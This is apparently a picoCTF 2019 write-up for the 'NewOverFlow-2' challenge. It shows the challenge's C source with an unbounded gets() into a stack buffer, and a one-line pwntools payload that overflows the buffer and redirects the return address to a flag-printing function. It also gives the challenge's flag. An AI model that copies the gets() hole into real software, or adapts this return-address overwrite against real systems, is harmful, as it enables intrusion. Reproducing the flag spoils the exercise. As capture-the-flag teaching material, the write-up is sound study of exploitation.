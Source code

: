 # NewOverFlow-2 

Points : 250

# Question

Okay now lets try mainpulating arguments. [program](vuln). You can find it in /problems/newoverflow-2_5_13f3d3dc09fc09d6d5db8adfa899a05d on the shell server. [Source](vuln.c).

# Hint 

Arguments aren't stored on the stack anymore ;)

# Solution

looking at the source code it seems that we need to pass some arguments inorder to get the flag 
```C
#define BUFFSIZE 64
#define FLAGSIZE 64

bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }


  

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}
```

however like the hint suggests they are no longer on the stack, the solution to this challenge is exactly [NewOverFlow1](https://github.com/netanelc305/picoCTF-2019/tree/master/Binary%20Exploitation/NewOverFlow-1)

all need is to change the adresses to the current program adresses.
```
python -c "from pwn import *; print'X'*72+p64(0x00000000004008b1)+p64(0x000000000040084d)" | ./vuln
```

![](newover1.png)

# Flag
picoCTF{r0p_1t_d0nT_st0p_1t_b3358018}

